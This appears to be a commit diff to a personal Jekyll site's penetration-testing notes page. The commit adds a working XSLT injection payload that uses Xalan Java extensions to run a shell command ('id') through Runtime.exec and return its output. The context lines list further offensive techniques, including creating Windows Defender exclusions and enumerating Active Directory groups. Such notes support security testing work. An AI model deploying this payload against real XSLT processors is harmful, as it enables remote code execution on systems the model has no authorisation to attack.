

Before and after one commit to mcorybillington/mcorybillington.github.io, a Jekyll site: the page built from _pages/notes.md, in a window 1280 px wide and 1400 px high, scrolled down 5427 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; cached includes are drawn as plain includes; some of the changed text lies outside the part shown.

Commit message:
Add XSLT Injection to notes.md
Added an XSLT payload that reads a single line of output from the shell command execution.

````diff
--- a/_pages/notes.md
+++ b/_pages/notes.md
@@ -15,6 +15,8 @@ author_profile: true
   - [Create a shortcut lnk one-liner](#create-a-shortcut-lnk-one-liner)
   - [Create a Windows Defender exclusion](#create-a-windows-defender-exclusion)
   - [Various AD commands without AD cmdlets](#various-ad-commands-without-ad-cmdlets)
+- [Snippets]
+  - [XSLT Read Output](#xslt-read-output)
 - [Shells](#shells)
   - [Upgrade to PTY](#upgrade-to-pty)
   - [Bash](#bash)
@@ -125,6 +127,24 @@ Get all groups and members of
 
 > ```([adsisearcher]'(&(objectCategory=group))').FindAll().Properties | % {$m=([ADSI]"LDAP://$($_.distinguishedname)").Member;if($m){write-host "Group: "$_.name;$m}} | % { ([adsisearcher]"(distinguishedname=$_)").FindOne().Properties.samaccountname }```
 
+## Snippets
+
+### XSLT Read Output
+Snippet for use in XSLT injection to read a single line of output from the command. This example uses the `id` command
+```
+<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime" xmlns:process="http://xml.apache.org/xalan/java/java.lang.Process" xmlns:instrrdr="http://xml.apache.org/xalan/java/java.io.InputStreamReader" xmlns:buf="http://xml.apache.org/xalan/java/java.io.BufferedReader" xmlns:obj="http://xml.apache.org/xalan/java/java.lang.Object">
+<xsl:template match="/">
+<xsl:variable name="cmd">id</xsl:variable>
+<xsl:variable name="rtobject" select="rt:getRuntime()"/>
+<xsl:variable name="process" select="rt:exec($rtobject,$cmd)"/>
+<xsl:variable name="inputStream" select="process:getInputStream($process)"/>
+<xsl:variable name="inputStreamRdr" select="instrrdr:new($inputStream)"/>
+<xsl:variable name="bufReader" select="buf:new($inputStreamRdr)"/>
+<xsl:variable name="ts" select="obj:toString(buf:readLine($bufReader))"/>
+<xsl:value-of select="$ts" />
+</xsl:template>
+</xsl:stylesheet>
+```
 ## Shells
 ### Upgrade to PTY
 Python
````
